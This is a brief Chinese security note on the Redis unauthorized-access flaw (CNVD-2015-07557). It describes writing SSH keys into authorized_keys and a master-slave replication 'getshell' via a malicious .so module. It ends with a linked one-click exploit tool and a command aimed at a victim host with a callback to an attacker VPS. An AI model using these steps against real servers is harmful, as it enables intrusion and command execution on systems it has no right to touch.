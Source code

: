 # Redis未授权访问漏洞

## redis 未授权访问 （CNVD-2015-07557）

```java
Redis是一套开源的使用ANSI C编写、支持网络、可基于内存亦可持久化的日志型、键值存储数据库，并提供多种语言的API。

Redis默认情况下会绑定在0.0.0.0:6379，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys文件中，进而可以直接登录目标服务器。
```

目标系统的权限不够*redis*用户无法写计划任务和公钥，而且也没有开放ssh端口。
主从复制getshell，写入恶意的so文件达到执行系统命令的目的。
github上有一键可以利用的脚本
https://github.com/n0b0dyCN/redis-rogue-server.git

```java
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --rport 50513 --lhost 127.0.0.1 --lport 4444 
//前面是受害者主机   后面是攻击者vps
```

